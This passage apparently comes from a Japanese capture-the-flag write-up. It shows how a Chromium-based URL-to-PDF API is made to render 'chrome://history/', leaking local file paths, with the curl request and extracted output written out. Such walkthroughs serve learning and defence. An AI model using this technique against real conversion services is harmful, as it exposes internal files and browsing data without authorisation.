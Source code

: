 ![tmp.png](images/tmp.png)  
APIのパスからもわかる通り、内部でchromiumを用いているため、ディレクトリも列挙される。  
ここでチームメンバが外部のurlをpdfに変換する機能で、`chrome://history/`が閲覧できることに気づいていた。  
```bash
$ curl -s 'http://localhost:8642/forms/chromium/convert/url' --form 'url=chrome://history/' -o ./output.pdf
```
![history.png](images/history.png)  
pdf内にリンクも埋め込まれており、何度もindex.htmlを開いているようだ。  
```bash
$ strings output.pdf | grep file
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/ede0ef9b-45ff-4641-9039-9e7522cf33e3/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/268614c1-66db-4073-be66-167c8aaee86e/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/eb170e28-0bbe-4f31-bdaa-e88f999bf728/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/9ea2fd77-5261-4846-b87a-185f4e5534d1/index.html)>>
```